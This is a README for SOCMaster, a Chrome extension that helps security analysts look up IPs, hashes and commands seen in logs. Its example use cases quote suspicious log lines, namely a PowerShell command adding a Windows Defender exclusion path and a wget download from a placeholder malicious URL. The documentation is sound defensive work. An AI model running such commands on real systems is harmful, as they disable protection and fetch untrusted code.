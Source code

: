 # Identify IPs, domains, hashes, operating system commands with one click without leaving your browser tab.

SOCMaster can allow security analysts, system administrators, or incident responders to quickly look up artifacts on their SIEM or any web application containing log files. This tool may reduce triage and investigation times as well as headaches from manually searching IP addresses or operating system commands that require multiple tabs to keep track of.

## How to use

1. Highlight an artifact and Rightclick
2. Select "SOCMaster"
3. Click one of the options available
4. Menu will appear on lower right side containing information about the artifacts

## Configuration

To query IP, Domain, and Hash using vendor API keys, the API key is required. Follow the steps:

1. Click Extensions icon in Google Chrome's upper right menu
2. Click "SOCMaster" > Settings
3. On the settings page, on the upper right corner click "Add API key"
4. On intel source selection, select API key vendor
5. Paste Vendor API key on the field
6. Click save
7. API key now added, IP/Domain/Hash scan using vendor API keys can now be used

## Example use case:

* Suspicious PowerShell logs show: Set-MpPreference -ExclusionPath "C:\users\public\documents\sucmra"  

A user can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

* Suspicious IP address from the firewall logs: 1.2.3.4  
  
A user can highlight and select the "IP scan using vendor API keys" option and will be able to view IP reputation and data from vendors.  

* Suspicious linux command show wget http://malicious_url -O  
  
A user can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

* A system administrator forgot the parameters for the creating a new AD user using New-ADUser cmdlet  

The administrator can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

# Credits

This chrome extension uses following websites as reference data:

lolbas-project.github.io  
gtfobins.github.io  
ss64.com  
man7.org  
linux.die.net  
file.net  
learn.microsoft.com  
google.com  
renenyffenegger.ch  
strontic.github.io  

Michael Hingpit for help with UI  

